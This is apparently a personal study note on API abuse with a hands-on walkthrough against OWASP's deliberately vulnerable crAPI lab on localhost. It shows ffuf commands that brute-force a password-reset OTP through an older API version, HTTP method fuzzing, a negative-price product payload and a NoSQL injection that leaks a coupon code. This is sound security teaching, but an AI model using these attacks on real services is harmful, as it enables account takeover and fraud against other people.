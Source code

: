 When we talk about API abuse, what we are referring to is the exploitation of vulnerabilities in application programming interfaces (APIs) that are used to enable communication and data exchange between different applications and services on a network.

A simple example of an API could be the integration of Google Maps into a transport application. Imagine that a transportation application needs to display the map and the route to follow so that users can see the location of the vehicle and the path it will take to reach its destination. Instead of creating its own map, the application could use the Google Maps API to display the map in its application.

In this example, the Google Maps API provides a number of functions and protocols that allow the transportation application to communicate with Google's servers and access the data needed to display the map and route. The Google Maps API also handles the complexity of displaying the map and route on different devices and browsers, allowing the transportation application to focus on its core functionality.

**Postman** is a very popular tool used for testing and debugging APIs. With Postman, developers can send requests to different endpoints and view the responses to verify that the API is working correctly. However, attackers can also use Postman to scan API endpoints for security vulnerabilities and weaknesses.

Some endpoints of an API can accept different request methods, such as GET, POST, PUT, DELETE, etc. Attackers can use fuzzing tools to send a large number of requests to an endpoint looking for vulnerabilities. For example, an attacker could send GET requests to an endpoint to list all available resources, or send POST requests to add or modify data.

Some of the common vulnerabilities that can be exploited through API abuse include:
- [[SQL Injections (SQLI)]]: Attackers can send malicious data in requests in an attempt to inject SQL code into the underlying database.
- [[Cross-Site Request Forgery (CSRF)]]: Attackers can send malicious requests to an API on behalf of an authenticated user to perform unauthorized actions.
- *Exposure of sensitive information*: Attackers can probe API endpoints to obtain sensitive information such as API keys, passwords and usernames.

To prevent abuse of APIs, developers must ensure that the API is designed securely and that all incoming requests are properly validated and authenticated. It is also important to use strong encryption and authentication to protect the data being transmitted through the API.

Developers can use tools such as Postman to test the API for potential vulnerabilities before they are exploited by attackers.

# Examples

The first thing we must do for the realization of this example is to download the latest version of *docker-compose* and install it as follows:

```bash
# Delete older docker-compose version
apt remove docker-compose

curl -L "https://github.com/docker/compose/releases/download/v2.19.1/docker-compose-$(uname -s)-$(uname -m)" -o docker-compose
chmod +x docker-compose
mv docker-compose /usr/local/bin
```

Now we can clone the [crAPI repository](https://github.com/OWASP/crAPI).

To set up we must delete all containers, images, volumes and [[Docker]] networks and then enter the downloaded directory:

```bash
cd deploy/docker
docker-compose pull
docker-compose -f docker-compose.yml --compatibility up -d
```

If during the execution of the last command something does not work, we must delete everything and try again. If after several attempts it does not work, we can download the *develop* version by copying the following command:

```bash
curl -o docker-compose.yml https://raw.githubusercontent.com/OWASP/crAPI/develop/deploy/docker/docker-compose.yml
VERSION=develop docker-compose pull
VERSION=develop docker-compose -f docker-compose.yml --compatibility up -d
```

Once everything is installed we can enter the web at *localhost:8888*, register and log in.

----
> We can take the opportunity to check that all tabs are working (dashboard, forum, shop, etc...). If there is some that does not work, we will have to delete everything and install it again.
----

We can go to the *network* window of our browser to see the web requests. We check the *XHR* option so that it does not show us so much noise and we make the *login* request for example to see what it includes.

We can see that the *login* request sends an *email* and a *password* and returns a *session token* that by its structure seems to be a *JWT*.

To continue working with web requests we will use **Postman**, to install it we can do it in the following way:

```bash
apt install snapd
wget https://dl.pstmn.io/download/latest/linux64 -O postman-linux-x64.tar.gz
sudo tar -xzf postman-linux-x64.tar.gz -C /opt
sudo ln -s /opt/Postman/Postman /usr/bin/postman
```

In **Postman** we proceed to create a new *collection* and copy some endpoints. First we must copy the *login* one in order to get our token (it would be a good idea to save it in *variables* so we don't have to copy and paste it in all requests) and then we can copy others like *dashboard*, *shop/products* and *shop/orders*.

## Example 1

One of the things we can do is to click *I forgot my password*, then it will send to the email the typical four digit *OTP*. If we intercept the request to validate the *OTP*, we see that it is this endpoint:

```
http://localhost:8888/identity/api/auth/v3/check-otp
```

It is a *POST* method in which the following information is sent to you in *JSON* format:

```json
{ "email":"loki@example.com", "otp":"1234", "password":"NewPass123$!" }
```

Let's try a brute force attack with the **ffuf** tool. We will use this tool because it is the same as the **wfuzz** tool but it is programmed in *GO*, which is a language that works very well with sockets. In this case we want to guarantee that everything arrives well because the container of the example is very unstable:

```bash
# With -p 1 we indicate that we want to delay one second per request
# With -mc 200 (matching code) we indicate to display only 200 status codes
ffuf -u http://localhost:8888/identity/api/auth/v3/check-otp -w /usr/share/seclists/Fuzzing/4-digits-0000-9999.txt -X POST -d '"email":"loki@example.com", "otp":"FUZZ", "password":"NewPass123$!"' -H "Content-Type: application/json" -p 1 -mc 200
```

After a few attempts we see that the server blocks us to avoid this type of attacks.

One of the things that we can try is to change the *versions*, in this case the most recent was *v3*, so we can try with *v2* in case the previous versions are not secured (if these are still exposed to the public):

```bash
ffuf -u http://localhost:8888/identity/api/auth/v2/check-otp -w /usr/share/seclists/Fuzzing/4-digits-0000-9999.txt -X POST -d '"email":"loki@example.com", "otp":"FUZZ", "password":"NewPass123$!"' -H "Content-Type: application/json" -p 1 -mc 200
```

This time we did manage to get the *OTP* since there were no restrictions in *v2* and therefore we changed the password to the user *loki*.

## Example 2

Another thing we can do is to see the *methods* that accept the endpoints of a given API. For this we can do it, for example, with **ffuf** substituting the method of the request by brute force:

```bash
ffuf -u http://localhost:8888/workshop/api/shop/products -w /usr/share/seclists/Fuzzing/http-request-methods.txt -X FUZZ -p 1 -mc 401,200
```

If the *OPTIONS* method is available we can also launch the request with it, because in the response header it usually tells us which methods are available for that endpoint.

As in the case of the */shop/products* endpoint we can change the method from *GET* to *POST* and then we can include a *JSON* in the body of the request of this style:

```json
{ "name":"", "price":"", "image_url":"" }
```

If, for example, we were to modify it in this way, we would publish a product that, when purchased, would give us money instead of spending it:

```json
{ "name":"Don't open the image!", "price":"-1000", "image_url":"https://ychef.files.bbci.co.uk/1280x720/p02ct5b3.jpg" }
```

## Example 3

In this case we will be validating a new coupon with the endpoint */coupon/validate-coupon*. When entering any number it indicates that the coupon is not valid but when intercepting the request we can see that it is a *POST* method that sends a *JSON* with this format:

```json
{ "coupon_code"="1234" }
```

In this case we know that the backend is running *MongoDB* which is a non-relational database, so [[NoSQL Injections]] may be viable:

```json
{ "coupon_code": { "$ne":"1234" } }
```

In this case we are sure that there is no coupon with value *1234*, so being vulnerable to [[NoSQL Injections]], it returns the coupon code.